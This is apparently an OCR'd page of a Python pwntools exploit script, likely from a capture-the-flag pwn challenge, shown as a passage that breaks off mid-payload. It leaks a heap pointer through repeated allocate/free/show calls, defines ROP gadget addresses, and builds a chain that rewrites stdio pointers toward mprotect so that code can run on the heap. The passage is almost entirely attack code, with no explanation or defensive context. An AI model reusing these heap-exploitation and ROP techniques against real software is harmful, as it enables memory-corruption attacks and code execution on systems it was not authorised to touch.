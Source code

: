 ```Python
    s.sendlineafter(b"destroy?\n",str(idx).encode())

if __name__=="__main__":
    stdout=0x406040
    stdin=0x406050
    stderr=0x4061A0
    rsp_rbp=0x40284e
    rbp=rsp_rbp+1
    ret=rbp+1
    # mov rax, [rbp-0x18];mov rax, [rax];add rsp,0x10; pop rbx; pop r12; pop rbp; ret;
    reveal_ptr=0x402FEC
    # mov rdx, rax; mov rax, [rbp-8], mov [rax], rdx; leave; ret;
    aaw=0x402F90
    # mov rax, [rbp-0x18]; mov rdx, [rax]; mov eax, [rbp-0x1c]; add rax, rdx; add rsp, 0x10; pop rbx; pop r12; pop rbp; ret;
    push_rax=0x403040
    # add dword ptr [rbp-0x3d], ebx; nop; ret;
    magic=0x4022dc
    # sub rax, qword ptr [rbp - 0x10] ; pop rbp; ret;
    sub_rax=0x4030B1
    # call rax;
    call_rax=0x402010
    # jmp rax
    jmp_rax=0x40226c
    # pop rbx ; pop r12 ; pop rbp ; ret
    rbx_r12_rbp=0x000000000040284c

    rax=0x3f117
    rdi=0x27765
    rsi=0x28f19
    rdx=0x00000000000fdcfd
    syscall=0x86002
    mprotect=0x101760
    pause()
    add()
    delete(0)
    add()
    add()
    add()
    add()
    add()
    rop_start=(u64(show(0).ljust(8,b"\x00"))<<12)+0xec0+0x10
    heap_base=rop_start-(0xbc2ed0-0xbb1000)
    success(hex(rop_start))
    pause()
    p1 = [
        rbx_r12_rbp,0x100000000-libc.sym._IO_2_1_stdout_+rdi,0,stdout+0x3d,
        magic,
        rbx_r12_rbp,0x100000000-libc.sym._IO_2_1_stdin_+rdx,0,stdin+0x3d,
        magic,
        rbx_r12_rbp,0x100000000-libc.sym._IO_2_1_stderr_+libc.sym.mprotect,0,stderr+0x3d,
        magic,
        rbp,rop_start+0x230+0x10+0x18,
        reveal_ptr,
        ret,ret,ret,ret,rop_start+0x230+0x18+0x18,
        jmp_rax, # pop rdi
        heap_base,
        reveal_ptr,
        ret,ret,ret,ret,rop_start+0x230+0x20+0x18,
        jmp_rax, # pop rdx
        7,
        rbx_r12_rbp,0x100000000-rdi+rsi,0,stdout+0x3d,
        magic,
```